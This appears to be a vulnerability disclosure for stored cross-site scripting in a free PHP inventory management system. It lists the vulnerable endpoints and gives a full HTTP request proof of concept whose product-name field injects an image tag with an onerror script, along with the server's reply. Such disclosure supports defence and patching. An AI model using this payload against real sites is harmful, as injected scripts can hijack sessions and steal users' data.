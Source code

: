 ﻿
**Exploit Title:** Free and Open Source inventory management system php - Multiple Stored XSS  <br>
**Date**: 4/08/2023
**Exploit Author:** y3thu
**Vendor Homepage:** https://www.sourcecodester.com/users/mayurik
**Software Link:** https://www.sourcecodester.com/php/16741/free-and-open-source-inventory-management-system-php-source-code.html
**Attack Vector:** WEB, Network
**Testeted on:** Windows 10  using XAMPP
Request
**Authenticated stored XSS**
**Vulnerable Endpoints:** `/index.php?page=add_expense ,/index.php?page=add_product,/index.php?page=add_stuff, ...`
**Affected endpoints:** `/index.php?page=sell_list,/index.php?page=buy_list,/index.php?page=product_list,/index.php?page=exspense_list,/index.php?page=staff_list,/index.php?page=dashboard,/index.php?page=category`
![image](https://github.com/yethu123/XSS-and-SQL-Injection-on-Free-and-Open-Source-inventory-management-system/assets/29069905/3e20f2be-5083-4e59-9530-7ae4b4f7dcfc)

**POC**

    POST /ample/app/action/add_product.php HTTP/1.1
    Host: localhost
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 132
    Origin: http://localhost
    Connection: close
    Referer: http://localhost/ample/index.php?page=add_product
    Cookie: PHPSESSID=g11ukg4bi8dvr9q9uqvsslpm3t
    Sec-Fetch-Dest: empty
    Sec-Fetch-Mode: cors
    Sec-Fetch-Site: same-origin
    
    product_name=%3Cimg+src%3Dx+onerror%3Dprompt(document.domain)%3E&brand=test&p_catagory=2&product_source=buy&sku=aaa&alert_quantity=3


Response

    HTTP/1.1 200 OK
    Date: Fri, 04 Aug 2023 08:52:04 GMT
    Server: Apache/2.4.54 (Win64) OpenSSL/1.1.1p PHP/7.4.30
    X-Powered-By: PHP/7.4.30
    Expires: Thu, 19 Nov 1981 08:52:00 GMT
    Cache-Control: no-store, no-cache, must-revalidate
    Pragma: no-cache
    Content-Length: 3
    Connection: close
    Content-Type: text/html; charset=UTF-8
    
    yes

![image](https://github.com/yethu123/XSS-and-SQL-Injection-on-Free-and-Open-Source-inventory-management-system/assets/29069905/a583971a-9c90-4caf-aeb9-b96c4189996d)
